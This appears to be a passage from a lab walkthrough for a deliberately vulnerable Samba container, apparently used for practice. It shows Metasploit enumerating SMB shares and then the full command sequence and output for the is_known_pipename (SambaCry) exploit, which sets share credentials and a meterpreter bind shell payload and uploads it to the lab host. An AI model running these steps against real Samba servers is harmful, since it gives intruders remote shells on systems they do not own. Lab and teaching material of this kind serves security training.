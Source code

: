 The expected output is

``` shell
msf5 > use auxiliary/scanner/smb/smb_enumshares
msf5 auxiliary(scanner/smb/smb_enumshares) > set rhosts vulnerable
rhosts => vulnerable
msf5 auxiliary(scanner/smb/smb_enumshares) > run

[+] 172.20.0.2:139        - data - (DS) Data
[+] 172.20.0.2:139        - IPC$ - (I) IPC Service (Crying samba)
[*] vulnerable:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

It show us that there is a share named **data** in this samba server.

## Getting access

Next step is to run the exploit against the host so we can obtain a shell. In
Metasploit this vulnerability is named **is_known_pipename** and is located in
`exploit/linux/samba/is_known_pipename`.

Run the command bellow to attack the host:

``` shell
use exploit/linux/samba/is_known_pipename
set RHOST vulnerable
set RPORT 445
set payload linux/x64/meterpreter/bind_tcp
set TARGET 3
set SMB_FOLDER data
set SMBUser sambacry
set SMBPass nosambanocry
exploit
```

If everything runs fine, you should be presented with a **meterpreter** shell like:

``` shell
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > set RHOST vulnerable
RHOST => vulnerable
msf5 exploit(linux/samba/is_known_pipename) > set RPORT 445
RPORT => 445
msf5 exploit(linux/samba/is_known_pipename) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf5 exploit(linux/samba/is_known_pipename) > set TARGET 3
TARGET => 3
msf5 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER data
SMB_FOLDER => data
msf5 exploit(linux/samba/is_known_pipename) > set SMBUser sambacry
SMBUser => sambacry
msf5 exploit(linux/samba/is_known_pipename) > set SMBPass nosambanocry
SMBPass => nosambanocry
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] vulnerable:445 - Using location \\vulnerable\data\ for the path
[*] vulnerable:445 - Retrieving the remote path of the share 'data'
[*] vulnerable:445 - Share 'data' has server-side path '/data
[*] vulnerable:445 - Uploaded payload to \\vulnerable\data\shyyEPPk.so
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using \\PIPE\/data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using /data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] Started bind TCP handler against vulnerable:4444
```